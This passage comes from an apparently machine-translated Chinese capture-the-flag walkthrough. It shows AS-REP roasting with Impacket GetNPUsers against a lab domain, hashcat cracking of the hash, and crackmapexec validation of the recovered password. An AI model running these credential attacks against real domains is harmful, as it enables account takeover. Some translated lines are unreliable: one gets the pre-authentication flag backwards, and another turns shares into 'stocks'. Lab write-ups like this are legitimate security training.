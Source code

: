 这导致用户`fsmith`用 AS-REP 响应，稍后我们可以使用 hashcat 破解它。即使这种技术没有返回易受攻击的用户，这也可以帮助您识别有效的域用户。请注意，当错误为`KDC_ERR_C_PRINCIPAL_UNKNOWN`时，该用户不是有效的域用户。这可以通过使用`Administrator`用户名进行测试来验证，我确信这个用户名是存在的:

```
/opt/impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/Administrator -dc-ip 10.10.10.175
```

![](img/4e861f0a5aecf70df1f0e0552fab0da3.png)

响应是 UF_DONT_REQUIRE_PREAUTH 设置，这意味着为该用户启用了预验证。继续，我将返回的 AS-REP 放在一个文本文件中，并用`hashcat`破解它:

```
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt --force
```

![](img/ad58a369d34f064868d4dff7550c2d7d.png)![](img/b5670be5666bb308e582fe84e67e8aff.png)

用户`fsmith`的密码是`Thestrokes23`。

然后，我使用 crackmapexec(cme)检查凭证是否有效，并检查域的密码策略，这在 CTF 环境中不再有用，但在真正的测试中，这将为您提供关于帐户锁定和域中强制执行的最小密码长度等有价值的信息。

```
/opt/cme smb 10.10.10.175 -d EGOTISTICAL-BANK -u fsmith -p Thestrokes23 --pass-pol
```

![](img/023af5074d3cbfe9d11f0ba79c63c8af.png)

我还使用 cme 查看了可用的股票:

![](img/503a64767600b108d23921c9dee1e9fc.png)
